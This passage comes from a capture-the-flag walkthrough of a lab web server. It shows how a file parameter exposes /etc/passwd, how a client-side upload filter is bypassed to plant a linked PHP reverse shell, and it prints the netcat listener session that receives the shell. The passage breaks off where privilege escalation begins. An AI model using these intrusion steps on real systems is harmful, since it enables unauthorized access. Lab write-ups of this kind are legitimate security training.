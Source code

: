 We found two tables both having credentials.

Login in to the admin portal gives nothing.

The page `/upload-cv00101011/index.php` asks for a username that start with z, we don't have that yet, let's continue.

We have `file1010111/index.php` password so let's authenticate.

We got the message `Parameter Fuzzing is also important :) or Can you hide DOM elements?`. Checking the source code we get another a hint `Hint: Try file or view as GET parameters

?`

There is a file parameter, let's try reading the `/etc/passwd`

![passwd](4.png)

It worked, and we got the username that stats with z.

## **Foothold**

Let's go to the upload page now.

![up](5.png)

The upload only accepts images but the filter seems to be client side.

I uploaded an image and intercepted the request on burp. Then I used repeater to upload a [php reverse shell](https://raw.githubusercontent.com/ivan-sincek/php-reverse-shell/master/src/reverse/php_reverse_shell.php)

![shell](6.png)

The uploaded file goes to `/upload_thm_1001` directory.

Going there we indeed the files.

I setup a listener and clicked on the php reverse shell file.

```terminal
$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.14.91.207] from (UNKNOWN) [10.10.108.192] 59678
SOCKET: Shell has connected! PID: 1718
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@ip-10-10-108-192:/var/www/html/upload-cv00101011/upload_thm_1001$ export TERM=xterm
<pload-cv00101011/upload_thm_1001$ export TERM=xterm                       
www-data@ip-10-10-108-192:/var/www/html/upload-cv00101011/upload_thm_10
```

## **Privilege Escalation**

On the user's home directory we can find ssh credentials.
